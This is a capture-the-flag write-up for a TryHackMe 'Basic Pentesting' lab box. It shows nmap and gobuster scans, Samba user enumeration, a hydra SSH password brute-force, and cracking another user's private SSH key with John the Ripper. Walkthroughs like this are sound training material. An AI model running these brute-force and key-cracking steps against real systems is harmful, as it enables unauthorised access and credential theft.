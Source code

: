 THM Basic Pentesting
In this writeup Today we're going to try to Solve a room in THM called Basic Pentesting Basic Pentesting Room The First Task :

Deploy the machine and connect to our network
Second Task :

Scan The Machine Service

open nmap

$ nmap -sC -sV -oN Result.txt 10.10.26.87

Nmap scan report for 10.10.26.87
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-02-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-22T10:26:54
|_  start_date: N/A
ports : 22 - 139 - 445

Now we need to take a look on the source code in main page 10.10.26.87

sorce code : enter image description here

Now we will use gobuster to search for directories with brute-force

gobuster dir -u http://10.10.26.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.87
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/16 08:40:01 Starting gobuster
===============================================================
/development (Status: 301)
Now we go to http://10.10.26.87/development/enter image description here

dev.txt:enter image description here J.txt:enter image description here

What is the username?
Now we will get user Try hack me give us a hint to get the user We have smbd open, that can give us a lot of information. We can use Enum4linux for that.

enum4linux 10.10.26.87
enter image description here after waiting for 5 minutes we get two user names

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User) <=======

users pop up, jan a.k.a. J and kay a.k.a. K (دماغ شغالة مش بتنام)

What is the password ?
we will brute-force password by hydra

└─$ hydra -l jan -P wordlist.txt ssh://10.10.26.87
login: jan & password: armando
What service do you use to access the server(answer in abbreviation in all caps)?
answer : ssh

What is the name of the other user you found(all lower case)?
answer : kay Unfortunately when we try to ssh using the key file we see the key requires a password.

jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@127.0.0.1
Enter passphrase for key 'id_rsa':

But luckily we can cat out this file and crack the key with JohnTheRipper

Using ssh2john.py id_rsa > john_id_rsa.hash we get a john-crackable file that we can start here. john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa.hash

But it quickly finds the password for the key file

[REDACTED]         (kay_id_rsa)

Trying again with the ssh file we easily log in with the file password and get the pass.bak!

Since there isnt a flag for this we can only think about the possible information we could do. Using an additional user we could see if it was part of any groups in /etc/groups or have programs that you can sudo Check with sudo -l . It truly depends on what is configured on a machine, but running something like LinPeas.sh will give you a good starting point!

What is the final password you obtain?
That contains our final flags!
